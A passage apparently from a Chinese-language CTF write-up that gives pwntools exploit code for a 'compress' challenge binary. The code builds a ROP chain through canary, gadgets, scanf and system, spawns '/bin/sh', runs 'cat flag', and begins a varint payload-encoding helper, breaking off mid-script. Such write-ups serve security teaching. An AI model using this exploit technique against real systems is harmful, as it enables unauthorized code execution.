 ```python
        canary, 
        1, 
        2,
        3, 
        4, 
        5, 
        pop,
        s,
        poprsi, 
        bss,   
        0xa ,
        scanf, 
        pop, 
        bss, 
        ret,
        system 
    ], 0x1050) + end

    print(payload)
    # gdb.attach(cn, cmd)
    cn.sendlineafter("Send me the hex-encoded string (max 4k):", payload)

    cn.sendline("/bin/sh\x00")
    cn.sendline("cat flag")
    cn.interactive()
```



完整exp:

::: details

```python
from pwn import * 
context.binary='./compress'
context.log_level='debug'



sa = lambda a, b: cn.sendafter(a, b)
sla = lambda a, b: cn.sendlineafter(a, b)

def un_number(number_string):
    number = 0
    leng = len(number_string)
    for i in range(leng // 2):
        var = int(number_string[i*2:i*2+2], 16) << (i * 8)
        number = number | var
    return number


# 0xff 后跟的数据, 数据是7bit拼接起来的, 可参考压缩函数内的伪代码
def handle_number(number, sig=0):
    string = ""
    if sig > 0: # 负数
        number = (~(number) + 1) & 0xffffffffffffffff
    while(1):
        if (number > 0x7f):
            var = number 
            string += "{:02x}".format((var | 0x80) & 0xff)
            number >>= 7 
        else:
            string += "{:02x}".format(number)
            return string
```